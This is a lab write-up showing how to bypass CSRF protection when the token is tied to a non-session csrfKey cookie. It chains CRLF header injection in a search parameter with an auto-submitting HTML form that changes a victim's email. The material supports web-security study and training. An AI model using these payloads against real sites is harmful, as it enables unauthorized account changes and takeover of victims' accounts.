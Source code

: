 # CSRF + Header injection where token is tied to non-session cookie 

In this lab, we find that the CSRF token is not linked to the session cookie, but rather to a value called `csrfKey`.

The back-end validates whether the `csrf` value matches the `csrfKey`.

![Screenshot1](/04-Screenshots/CSRF+Header-injection0.png)

In the search section, we discover that **Header Injection** can be exploited, allowing us to arbitrarily set a cookie value by adding \r\n:

`?search=test%0d%0aSet-Cookie:%20<ARBITRARY-VALUE>`

![Screenshot2](/04-Screenshots/CSRF+Header-injection1.png)

![Screenshot3](/04-Screenshots/CSRF+Header-injection2.png)

**Exploitation:**

Our goal is to make the victim set a `csrfKey` value that matches the CSRF token, and then perform an email change via CSRF.

- 1: make a request and save the CSRF token along with the csrfKey.
- 2: create an HTML CSRF form using the saved token.
- 3: below the form, inject a header to assign the csrfKey cookie value that matches the CSRF token.

```html
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-VALUE>>"> 
</form>

<img src="https://<IP>/?search=test%0d%0aSet-Cookie:%20csrfKey=<CSRF_KEY-VALUE>%3b%20SameSite=None" onerror="document.forms[0].submit()">
```